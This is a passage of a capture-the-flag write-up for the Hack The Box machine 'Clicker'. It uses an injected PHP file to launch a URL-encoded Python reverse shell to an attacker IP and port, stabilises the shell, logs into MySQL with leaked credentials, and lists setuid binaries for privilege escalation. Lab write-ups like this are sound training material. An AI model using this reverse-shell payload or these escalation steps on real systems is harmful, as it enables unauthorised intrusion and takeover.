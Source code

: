 
```http
HTTP/1.1 302 Found
Date: Fri, 05 Jan 2024 15:07:15 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /admin.php?msg=Data has been saved in exports/top_players_5526snlq.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8


```

- #### Finally, get the created file and use the injected php code to invoke a shell

```http
http://clicker.htb/exports/top_players_5526snlq.php?cmd=export%20RHOST=%2210.10.16.75%22;export%20RPORT=1234;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27
```

We got a shell!

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
```

we're `www-data`

Let's do some enumeration (from `db_utils.php`) files so we can access to mysql:

```bash
mysql -uclicker_db_user -h localhost -pclicker_db_password
```

nothing useful, we alredy know everything.

We know user is called `jack`, let's search something interesting

```bash
find / -iname '*.*' -exec grep jack {} \; -print 2> /dev/null
```

I found nothing.

And now the funny part.

I got the both root and user with an unintented (I guess).

Running `lse.sh` we get the folloning.

```
[!] fst020 Uncommon setuid binaries........................................ yes!           
---                                                                                                       
/usr/bin/bash                                                                                             
/opt/manage/execute_query   
```
